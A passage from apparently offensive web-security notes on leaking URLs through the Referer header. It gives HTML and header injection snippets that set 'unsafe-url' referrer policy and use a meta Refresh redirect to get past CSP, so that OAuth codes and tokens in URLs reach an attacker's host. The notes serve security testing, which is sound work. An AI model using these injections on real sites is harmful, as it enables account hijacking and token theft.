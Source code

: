 This is especially useful in [headless-browsers.md](../headless-browsers.md "mention") where most of the time it's supposed to be locked to one specific trusted site, but may be able to be redirected to an unsafe one that can, for example, pwn an outdated version.

## Referer

The [`Referer:`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referer) request header is sent by default for every request, containing the **url the request was sent from**. It means that something as simple as clicking a link going to an attacker from a target's domain, will leak the target's domain on which the link was clicked to the attacker.\
Well, that's how it _used to work_. Nowadays the defaults are more sensible, only sending the _origin_ of the target instead of the full path and query parameters. This is controlled by the [`Referrer-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy).

{% hint style="info" %}
**Fun fact**: The name "referer" is actually a misspelling that made it irrecoverably deep into the specification. it leaves us with the situation where some references to it as spelled as "referer", while others say "referrer".
{% endhint %}

Query parameters can be very sensitive in situations like the ["OAuth dirty dance"](https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/) technique, where you place the authorization code on a URL without using it, then leak it to use for yourself. Leakage through the `Referer:` header still has potential if you are able to **alter the referrer policy**.

The most straight-forward way would be to use a [crlf-header-injection.md](../crlf-header-injection.md "mention") to set it as a header:

```http
Referrer-Policy: unsafe-url
```

This situation is unlikely though, something more common is the ability to insert limited HTML on a page. You can use this to alter the referrer policy using a [`<meta>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/meta) tag:

```html
<meta name="referrer" content="unsafe-url">
```

You'd now need to load any resource from an attacker's domain (like an `<img>`), and the whole current URL with parameters is sent to the attacker.\
When the CSP is in the way, a `<meta http-equiv="Refresh">` cannot be blocked:

<pre class="language-http" data-title="Redirecting response"><code class="lang-http">HTTP/1.1 200 OK
<strong>Content-Security-Policy: default-src 'none'
</strong>Content-Type: text/html

&#x3C;meta name="referrer" content="unsafe-url">
<strong>&#x3C;meta http-equiv="Refresh" content="0,url=https://example.com">
</strong></code></pre>

{% hint style="success" %}
Interestingly, the `<meta>` tag applies to the whole page, even during [`DOMParser.parseFromString()`](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser/parseFromString) (without inserting into the DOM, [only on Chromium](https://issues.chromium.org/issues/40698594)). This means client-side sanitizers that use this parsing function will accidentally apply the referrer policy before it can be sanitized!
